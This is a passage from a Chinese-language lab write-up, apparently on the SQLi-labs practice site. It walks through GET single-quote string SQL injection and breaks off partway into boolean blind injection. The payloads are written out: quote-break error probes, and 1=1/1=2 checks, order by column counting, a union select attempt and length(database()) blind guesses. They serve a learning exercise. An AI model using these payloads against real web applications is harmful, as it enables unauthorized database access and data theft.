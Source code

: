 ## 实验五	双注入GET单引号字符型注入

输入`?id=1`，回显`You are in...........`

![image-20211207093302309](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054280.png)

输入`?id=1'`，产生报错回显：`near ''1'' LIMIT 0,1' at line 1`，猜测后台sql语句为：`select * from where id=('input')`

![image-20211207093402047](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054858.png)

构造输入进行验证：

`id=1' and 1=1%23`，正常回显：

![image-20211207093805703](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054452.png)

`id=1' and 1=2%23`，无回显，说明猜测正确。

![image-20211207093922854](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054238.png)



### 手工注入

#### 用 order by 判断字段数

`?id=1' order by 3 %23`回显正常

![image-20211207094034374](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054328.png)

`?id=1' order by 4%23`回显报错，说明字段数为3

![image-20211207094053137](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054082.png)



#### 确定查询回显位置

`id=-1' union select 1,2,3%23`

这时并没有像实验一那样有显式的返回，猜测存在盲注，所以这里不能使用union注入。

![image-20211207094243322](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054566.png)

通过之前的猜测验证，说明可以输入判断语句，通过是否有回显验证判断是是否正确。

#### 1、布尔盲注

##### 猜测数据库长度

输入`id=1' and length(database())>=1%23`，正常回显；一直试到`>=9`，无回显，说明数据库长度为8

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054667.png" alt="image-20211207095444515" style="zoom: 67%;" /><img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020054929.png" alt="image-20211207095513073" style="zoom: 67%;" />



##### 猜测数据库第一位字符
